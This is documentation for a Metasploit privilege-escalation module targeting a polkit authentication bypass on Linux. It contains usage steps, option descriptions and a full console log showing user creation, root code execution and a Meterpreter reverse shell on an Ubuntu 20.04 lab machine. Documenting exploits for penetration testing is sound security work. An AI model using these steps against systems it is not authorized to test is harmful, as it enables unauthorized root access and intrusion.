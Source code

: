 ## Description

This module exploits a authentication bypass in Linux machines that make use of the polkit system service.
The vulnerability enables an unprivileged local user to get a root shell on the system.

This exploit needs be run from an SSH or non-graphical session. The `dbus-send` command which is used to trigger the exploit,
launches an authentication agent. When run from a graphical session, an authentication agent pops up in the form of a
dialog box and waits for user input. This dialog box will cause the dbus-command to time out waiting for user input and
will prevent successful exploitation of polkit

If `systemd` is installed on the system the session service type can be checked by running: `loginctl session-status`.
The following output (x11) indicates a graphical session is being run and the exploit will not work:

`Service: gdm-password; type x11; class user`

The following output (tty) indicates a non-graphic session is being used and the exploit is likely to be successful:

`Service: sshd; type tty; class user`

## Vulnerable Application
This module has been tested successfully on:

* Ubuntu 20.04

### Installation And Setup

Download and install Ubuntu 20.04 from the Ubuntu Downloads page: https://ubuntu.com/download/desktop

## Verification Steps
1. Start msfconsole.
2. Get a session.
3. Do: `use exploit/linux/local/polkit_dbus_auth_bypass`.
4. Set the `SESSION` to the session obtained in step 2.
5. Set the `LHOST`, `LPORT` and `PAYLOAD` options as appropriate.
6. Do: `run`.
7. It is possible for the exploit to fail. If this happens, increase the value of the ITERATIONS option to attempt the exploit more times before failing and attempt the exploit again.
8. Enjoy the shell.

## Options

**SESSION**
The session to run this module on.

**USERNAME**
The name of the user the exploit will add to the system

**PASSWORD**
The password for the user to be created

**WritableDir**
Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Ubuntu 20.04
```
msf6 > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.146:49882) at 2021-06-25 17:54:45 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use polkit_dbus
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/local/polkit_dbus_auth_bypass  2021-06-03       excellent  Yes    Polkit Authentication Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/polkit_dbus_auth_bypass

[*] Using exploit/linux/local/polkit_dbus_auth_bypass
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4443
lport => 4443
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set session 1
session => 1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[*] Checking for exploitability via attempt
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user msf
[+] User msf created with UID 1019
[*] Attempting to set the password of the newly create user, msf, to: NpJsQSti
[+] Obtained code execution as root!
[*] Writing '/tmp/vOWnn' (207 bytes) ...
[*] Sending stage (984904 bytes) to 192.168.123.146
[+] Deleted /tmp/vOWnn
[*] Meterpreter session 2 opened (192.168.123.1:4443 -> 192.168.123.146:42066) at 2021-06-25 17:55:27 -0400
[*] Attempting to remove the user added:
[+] Successfully removed msf

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.123.146
OS           : Ubuntu 20.04 (Linux 5.8.0-55-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
